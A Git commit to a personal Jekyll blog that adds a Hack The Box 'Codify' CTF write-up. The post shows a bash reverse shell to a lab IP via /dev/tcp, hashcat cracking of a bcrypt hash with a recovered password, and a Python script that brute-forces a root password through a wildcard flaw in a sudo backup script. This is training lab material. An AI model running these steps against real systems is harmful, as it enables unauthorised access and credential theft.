

Before and after one commit to aldayrruiz/aldayrruiz.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 925 px from its top, so only the background shows below that; part of the change alters nothing that is shown.

Commit message:
Upload Codify Machine

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -4,7 +4,7 @@ markdown: kramdown
 # for atom feed
 author:
   name: Aldayr Ruiz
-  email: aldayr.dev@gmail.com
+  email: aldayrruiz@proton.me
 
 plugins:
   - jemoji
--- /dev/null
+++ b/all_collections/_posts/2024-04-06-codify.htb.markdown
@@ -0,0 +1,168 @@
+---
+layout: post
+title:  "Codify Machine (Easy)"
+date:   2024-04-05 17:04:54 +0100
+categories: ["OS Command Injection", "Brute Force"]
+---
+
+## Information Gathering
+
+First run a nmap scan to show the services available on the target.
+
+![Nmap scan](/assets/machines/codify.htb/images/1_nmap_scan.png)
+
+*Note: En el output aunque aparezca el puerto 3000 abierto, era otro hacker entusiasta que abriría ese puerto.*
+
+The web application use the vm2 software to allow users to execute Nodejs code in the server.
+
+![HTTP Web service](/assets/machines/codify.htb/images/2_http_web_service.png)
+
+The version of vm2 can be found at link of the About us page.
+
+![HTTP Web service](/assets/machines/codify.htb/images/3_http_vm2_version.png)
+
+## Vulnerability Assesment
+
+A quick search on Google reveals that there is a vulnerability for version vm2 3.9.16: [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)
+
+In the following link, we have a [Proof of Concept (PoC)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).
+
+## Execute reverse shell
+
+We will exploit the vulnerability by injecting a command that will execute a reverse shell. The command to inject is as follows:
+
+```bash
+/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.35/9000 0>&1"
+```
+
+![HTTP Web service](/assets/machines/codify.htb/images/4_os_command_injection.png)
+
+Before clicking on `Run`, make sure you have netcat listening.
+
+![HTTP Web service](/assets/machines/codify.htb/images/5_nc_revshell.png)
+
+¡We are in! The next step is to gather information again.
+
+## Brute Forcing Password
+
+We find two users, `svc` and `joshua`. Since we are inside a CTF, it looks like we first need to compromise the `joshua` user by performing privilege escalation, and then go for the root user.
+
+![HTTP Web service](/assets/machines/codify.htb/images/7_users.png)
+
+Searching through the files on the website, we came across the file `tickets.db`, which contains the hashed password of the user joshua.
+
+![HTTP Web service](/assets/machines/codify.htb/images/6_tickets_db.png)
+
+If we look at the hash, it is Bcrypt. Fortunately, we have our trusted tool Hashcat.
+
+```bash
+hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
+```
+
+The argument `-m 3200` indicates that we will use the Bcrypt hash.
+
+![HTTP Web service](/assets/machines/codify.htb/images/8_hashcat.png)
+
+The brute force attack was successful, and we obtained the credentials `joshua:spongebob1`. Now, let's cross our fingers that he has reused the password for his account on the server.
+
+![HTTP Web service](/assets/machines/codify.htb/images/9_su_joshua.png)
+
+Thanks God! We got Joshua's flag, and now let's go for root.
+
+## Privilege Escalation
+
+The command `sudo -l` shows us the commands/scripts that we can execute as root.
+
+![HTTP Web service](/assets/machines/codify.htb/images/10_sudo_l.png)
+
+We come across the script `/opt/scripts/mysql-backup.sh`, its contents are as follows:
+
+```bash
+#!/bin/bash
+DB_USER="root"
+DB_PASS=$(/usr/bin/cat /root/.creds)
+BACKUP_DIR="/var/backups/mysql"
+
+read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
+/usr/bin/echo
+
+if [[ $DB_PASS == $USER_PASS ]]; then
+        /usr/bin/echo "Password confirmed!"
+else
+        /usr/bin/echo "Password confirmation failed!"
+        exit 1
+fi
+
+/usr/bin/mkdir -p "$BACKUP_DIR"
+
+databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")
+
+for db in $databases; do
+    /usr/bin/echo "Backing up database: $db"
+    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
+done
+
+/usr/bin/echo "All databases backed up successfully!"
+/usr/bin/echo "Changing the permissions"
+/usr/bin/chown root:sys-adm "$BACKUP_DIR"
+/usr/bin/chmod 774 -R "$BACKUP_DIR"
+/usr/bin/echo 'Done!'
+```
+
+This script basically performs a backup and stores it in `/var/backups/mysql`. However, to execute the script, we are asked for the root password in the MySQL database. If we enter the wrong password, the rest of the script will not execute.
+
+Fortunately, the following conditional has a vulnerability that we can exploit:
+
+```bash
+if [[ $DB_PASS == $USER_PASS ]]
+```
+
+Our input has not been sanitized, so we can use the wildcard `*` to brute force the root password. By introducing the next inputs `a*`, `b*`, `c*`, `d*`, `e*`, `f*`, ..., `kl*`.
+
+After a few minutes, I created this Python script to brute force the root password using the previous methodology. Please note that this script does not use symbols like `$,.`, as they could provoke script errors.
+
+```python
+import os
+import time
+
+
+# This python script brute force the password by using wildcard * in the password
+chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
+pass_arr = 'kljh12k3jhaskjh12kjh'.split()
+i = 0
+while True:
+    pass_str = ''.join(pass_arr)
+    result = os.system(f"echo {pass_str}* | sudo /opt/scripts/mysql-backup.sh 1>/dev/null 2>/dev/null")
+    time.sleep(0.5)
+
+    # If the appended character was not found, replace it with the next character
+    if result != 0:
+        print(f"Character not found: {pass_str}*")
+        i += 1
+        # If we have tried all characters, password was found
+        if i >= len(chars):
+            pass_arr.pop()
+            print(f"Password found: {''.join(pass_arr)}")
+            break
+        # Otherwise, replace the last character with the next one
+        pass_arr[len(pass_arr) - 1] = chars[i]
+        continue
+
+    # If a new character was found, add it to the password
+    print(f"Found character: {pass_str}*")
+    i = 0
+    pass_arr.append(chars[i])
+    continue
+```
+
+The above script will perform a brute force attack to obtain the root password.
+
+![HTTP Web service](/assets/machines/codify.htb/images/11_py_bruteforce_start.png)
+
+Finally, after a few minutes, we have obtained the root password.
+
+![HTTP Web service](/assets/machines/codify.htb/images/12_py_bruteforce_end.png)
+
+Use it wisely to obtain the root flag.
+
+¡Happy Hacking!
````
Also changed, not shown: assets/machines/codify.htb/images/10_sudo_l.png (added), assets/machines/codify.htb/images/11_py_bruteforce_start.png (added), assets/machines/codify.htb/images/12_py_bruteforce_end.png (added), assets/machines/codify.htb/images/1_nmap_scan.png (added), assets/machines/codify.htb/images/2_http_web_service.png (added), assets/machines/codify.htb/images/3_http_vm2_version.png (added), assets/machines/codify.htb/images/4_os_command_injection.png (added), assets/machines/codify.htb/images/5_nc_revshell.png (added), assets/machines/codify.htb/images/6_tickets_db.png (added), assets/machines/codify.htb/images/7_users.png (added), assets/machines/codify.htb/images/8_hashcat.png (added), assets/machines/codify.htb/images/9_su_joshua.png (added).
